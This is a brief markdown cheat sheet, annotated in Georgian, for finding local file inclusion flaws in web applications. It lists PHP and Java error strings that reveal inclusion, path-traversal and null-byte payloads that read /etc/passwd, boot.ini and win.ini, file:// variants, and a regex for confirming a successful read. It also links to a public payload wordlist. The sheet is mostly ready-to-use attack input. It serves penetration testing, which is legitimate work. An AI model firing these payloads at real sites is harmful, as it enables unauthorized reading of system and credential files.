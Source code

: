 ### LFI 

#### Errors:
```
Detect Payload: abc.txt
```
request-ის შემდეგ აბრუნებს შემდეგ შეცდომებს respons-ში

##### Java Errors:
```
java.io.FileNotFoundException
java.lang.Exception
java.lang.IllegalArgumentException
java.net.MalformedURLException
```
##### PHP Errors:
```
fread\\(\\)
for inclusion \'\\(include_path=
Failed opening required
<b>Warning</b>:  file\\('
<b>Warning</b>:  file_get_contents\\('
open_basedir restriction in effect
```

##### Unix Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd
../../../../../../../../../../../../../../../etc/passwd
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.html
/etc/passwd
```

შემდეგი სახის LFI - ის ტესტირება, როგორიცაა http://website/zen-cart/extras/curltest.php?url=file:///etc/passwd
```
file:///etc/passwd
/etc/passwd%00
/etc/passwd%00.html
/etc/passwd%00.ext
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.ext
```

##### Windows Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini
../../../../../../../../../../../../../../../boot.ini
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00.html
C:\\boot.ini
C:\\boot.ini%00
C:\\boot.ini%00.html
%SYSTEMROOT%\\win.ini
%SYSTEMROOT%\\win.ini%00
%SYSTEMROOT%\\win.ini%00.html
file:///C:/boot.ini
file:///C:/win.ini
C:\\boot.ini%00.ext
%SYSTEMROOT%\\win.ini%00.ext
```
ვაკვირდებით respons და ვეძებთ 
##### Regexp:
```
root:x|for 16-bit app support|boot loader
```

სასურველი payload-ების ვორდლისტი
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders




